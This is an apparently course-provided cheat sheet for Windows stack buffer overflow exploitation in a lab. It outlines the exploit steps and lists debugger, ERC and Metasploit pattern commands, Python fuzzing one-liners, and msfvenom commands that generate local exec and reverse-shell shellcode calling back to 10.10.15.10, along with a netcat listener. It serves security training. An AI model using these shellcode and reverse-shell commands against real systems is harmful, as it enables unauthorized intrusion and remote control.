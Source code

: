 ## Buffer Overflow Steps

1. Fuzzing Parameters
2. Controlling EIP
3. Identifying Bad Characters
4. Finding a Return Instruction
5. Jumping to Shellcode

## Commands

|Command|Description|
|---|---|
|**General**||
|`xfreerdp /v:<target IP address> /u:htb-student /p:<password>`|RDP to Windows VM|
|`/usr/bin/msf-pattern_create -l 5000`|Create Pattern|
|`/usr/bin/msf-pattern_offset -q 31684630`|Find Pattern Offset|
|`netstat -a \|findstr LISTEN`|List listening ports on a Windows machine|
|`.\nc.exe 127.0.0.1 8888`|Interact with port|
|`msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'`|Generate Local Privesc Shellcode|
|`msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python' -b '\x00\0x0a'`|Generate Reverse Shell Shellcode|
|`nc -lvnp 1234`|Listen for reverse shell|
|**x32dbg**||
|`F3`|Open file|
|`alt+A`|Attach to a process|
|`alt+L`|Go to Logs Tab|
|`alt+E`|Go to Symbols Tab|
|`ctrl+f`|Search for instruction|
|`ctrl+b`|Search for pattern|
|`Search For>All Modules>Command`|Search all loaded modules for instruction|
|`Search For>All Modules>Pattern`|Search all loaded modules for pattern|
|**ERC**||
|`ERC --config SetWorkingDirectory C:\Users\htb-student\Desktop\`|Configure Working Directory|
|`ERC --pattern c 5000`|Create Pattern|
|`ERC --pattern o 1hF0`|Find Pattern Offset|
|`ERC --bytearray`|Generate All Characters Byte Array|
|`ERC --bytearray -bytes 0x00`|Generate Byte Array excluding certain bytes|
|`ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin`|Compare bytes in memory to a Byte Array file|
|`ERC --ModuleInfo`|List loaded modules and their memory protections|
|**Python**||
|`python -c "print('A'*10000)"`|Print fuzzing payload|
|`python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"`|Write fuzzing payload to a file|
|`breakpoint()`|Add breakpoint to Python exploit|
|`c`|Continue from breakpoint|